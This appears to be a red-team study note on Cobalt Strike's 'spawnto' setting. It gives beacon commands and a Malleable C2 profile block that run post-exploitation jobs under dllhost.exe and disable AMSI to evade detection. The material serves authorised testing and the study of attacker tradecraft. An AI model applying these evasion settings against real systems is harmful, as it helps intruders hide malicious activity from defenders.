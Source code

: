 # SpawnTo

- Change the process for post-ex commands (the sysnative and syswow64 paths should be used rather than system32)

```
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe
```

*If we then use powerpick to get its own process name, it will return dllhost.*

- Change the process for psexec (the sysnative and syswow64 paths should be used rather than system32)

```
beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
```

- Malleable C2

```
post-ex {
        set amsi_disable "true";
        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```
